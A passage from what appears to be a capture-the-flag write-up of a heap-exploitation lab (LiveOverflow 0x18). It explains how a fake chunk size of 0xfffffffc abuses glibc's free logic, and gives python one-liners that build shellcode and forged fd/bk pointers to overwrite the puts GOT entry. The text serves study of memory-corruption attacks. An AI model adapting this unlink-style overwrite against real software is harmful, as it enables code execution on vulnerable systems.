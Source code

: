 
> BUT we can’t use small size values. But if you look in the code how size is used, it’s just used as an offset which is added to an address. The code doesn’t check that it’s a ridiculous huge chunk. It just adds that value:
```c
/* Treat space at ptr + offset as a chunk */
#define chunk_at_offset(p, s)  ((mchunkptr)(((char*)(p)) + (s)))

else if (!chunk_is_mmapped(p)) {
  nextchunk = chunk_at_offset(p, size);
  nextsize = chunksize(nextchunk);
}
```

> And here is where the trick comes into play. We could use fffffffc as the size of the chunk, which results in a -4.

### First Attempt
**Constructing the first heap chunk:**
```bash
python -c "print('\xB8\x64\x88\x04\x08\xFF\xD0')" > /tmp/a
```
The shellcode is just calling the `winner` function, here is how we make the shellcode. Go to: https://defuse.ca/online-x86-assembler.htm#disassembly, and just paste this instructions:
```asm
mov eax,0x8048864
call eax
```

**Constructing the second heap chunk:**
```bash
python -c "print('B'*36+'\x65')" > /tmp/b
```

**Constructing the last heap chunk:**
```bash
python -c "print('C'*92+'\xfc\xff\xff\xff\xfc\xff\xff\xff'+'\x1c\xb1\x04\x08'+'\x08\xc0\x04\x08')" > /tmp/c
```
1. The first and second `0xfffffffc` are about escalating the n
2. The last 8 bytes, it's the `fd` and `bk` pointers that we want to write. `fd` points to the `puts` GOT, and `bk` points to heap at position `0x0804c008`.

So here is the overall plan:
![](./assets/liveoverflow-0x18/final-plan.png)

